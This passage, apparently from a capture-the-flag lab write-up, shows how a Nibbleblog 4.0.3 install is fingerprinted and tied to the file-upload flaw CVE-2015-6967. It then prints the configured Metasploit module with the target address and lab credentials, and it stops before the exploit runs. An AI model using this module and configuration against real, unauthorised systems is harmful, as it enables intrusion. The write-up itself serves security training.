 ## Remote Code Execution (via file upload):

From the `gobuster` results, there's a `README` file, and that gives us
a version:



    ====== Nibbleblog ======
    Version: v4.0.3
    Codename: Coffee
    Release date: 2014-04-01
    ...



This version of nibbleblog is vulnerable to CVE-2015-6967, which is an
authenticated arbitrary file upload, which can lead to code execution.
There's both a metasploit modules, and it's pretty straightforwards to
do manually.

### Metasploit --\> Meterpreter

We'll use `multi/http/nibbleblog_file_upload` to get a shell on the box.



    msf exploit(multi/http/nibbleblog_file_upload) > info
           Name: Nibbleblog File Upload Vulnerability
         Module: exploit/multi/http/nibbleblog_file_upload
       Platform: PHP
           Arch: php
     Privileged: No
        License: Metasploit Framework License (BSD)
           Rank: Excellent
      Disclosed: 2015-09-01

    Provided by:
      Unknown
      Roberto Soares Espreto <robertoespreto@gmail.com>

    Available targets:
      Id  Name
      --  ----
      0   Nibbleblog 4.0.3

    Basic options:
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   nibbles          yes       The password to authenticate with
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOST      10.10.10.75      yes       The target address
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /nibbleblog/     yes       The base path to the web application
      USERNAME   admin            yes       The username to authenticate with
      VHOST                       no        HTTP server virtual host
